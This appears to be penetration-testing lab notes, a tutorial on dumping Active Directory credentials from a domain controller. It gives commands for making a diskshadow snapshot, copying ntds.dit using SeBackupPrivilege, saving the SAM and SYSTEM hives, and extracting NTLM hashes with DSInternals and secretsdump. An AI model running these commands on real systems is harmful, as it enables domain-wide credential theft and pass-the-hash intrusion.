 **Step-by-Step Breakdown**


**Get Local Logon to the DC**

You need local access or RDP—this ain’t something you can do remotely unless you're already deep in the box.

 📸 2. **Create a Shadow Copy (Mirror of C:)**

```ps1
diskshadow.exe

set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit
```

✅ This creates a virtual E: drive that’s a snapshot of C:, **without locks** on files like `ntds.dit`.

 📦 3. **Copy NTDS.dit File with Special Privileges**

```ps1
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

📌 This uses **SeBackupPrivilege** to bypass ACLs. Basically says “I’m admin, trust me bro.”

 🧩 4. **Also Backup the SYSTEM and SAM Hive**

You’ll need these to decrypt hashes (esp. for local users).

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

 🧠 5. **Extract NTLM Hashes (e.g., with DSInternals)**

```ps1
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

🔑 Boom, you've got the NTLM hash for the domain admin. Pass-the-hash time, baby.

---

 🚨 Real-World Pro Tips

- 💀 If `SeBackupPrivilege` isn’t enabled or you're not SYSTEM/Administrator, this won't fly.
- 🚷 Explicit deny entries = full stop. Even backup semantics can’t save you.
- 🧪 You can automate this whole process with a script if you're post-exploitation.
- 🪪 Use Impacket's `secretsdump.py` if you're more comfy in Python:  
    ```bash
    secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
    ```
